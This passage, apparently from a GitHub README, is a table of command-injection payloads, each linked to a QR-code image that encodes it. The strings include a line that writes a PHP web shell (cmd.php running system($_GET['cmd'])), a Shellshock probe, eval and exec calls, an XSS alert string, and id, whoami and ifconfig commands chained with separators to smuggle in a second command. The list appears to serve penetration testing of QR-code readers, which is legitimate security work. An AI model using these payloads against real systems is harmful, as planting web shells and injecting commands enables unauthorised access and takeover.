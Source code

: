 | `&& echo "<?php system($_GET['cmd']); ?>" > cmd.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/153.png) |
| `echo "<?php system($_GET['cmd']); ?>" > cmd.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/154.png) |
| `echo '<script>alert(1)</script>'// XXXXXXXXXXX` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/156.png) |
| `() { :;}; echo vulnerable 10` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/157.png) |
| `eval('ls')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/158.png) |
| `eval('pwd')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/159.png) |
| `eval('pwd');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/160.png) |
| `eval('sleep 5')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/161.png) |
| `eval('sleep 5');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/162.png) |
| `eval('whoami')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/163.png) |
| `eval('whoami');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/164.png) |
| `exec('ls')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/165.png) |
| `exec('pwd')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/166.png) |
| `exec('pwd');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/167.png) |
| `exec('sleep 5')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/168.png) |
| `exec('sleep 5');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/169.png) |
| `exec('whoami')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/170.png) |
| `exec('whoami');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/171.png) |
| `;{$_GET["cmd"]}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/172.png) |
| ``id`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/173.png) |
| `\|id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/174.png) |
| `\| id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/175.png) |
| `;id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/176.png) |
| `;id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/177.png) |
| `;id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/178.png) |
| `& id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/179.png) |
| `&&id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/180.png) |
| `;id\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/181.png) |
| `ifconfig` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/182.png) |
| `\| ifconfig` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/183.png) |
| `; ifconfig` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/184.png) |
| `& ifconfig` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/185.png) |
| `&& ifconfig` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/186.png) |
| `/index.html\|id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/187.png) |
| `ipconfig` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/188.png) |
| `\| ipconfig /all` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/189.png) |
| `; ipconfig /all` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/190.png) |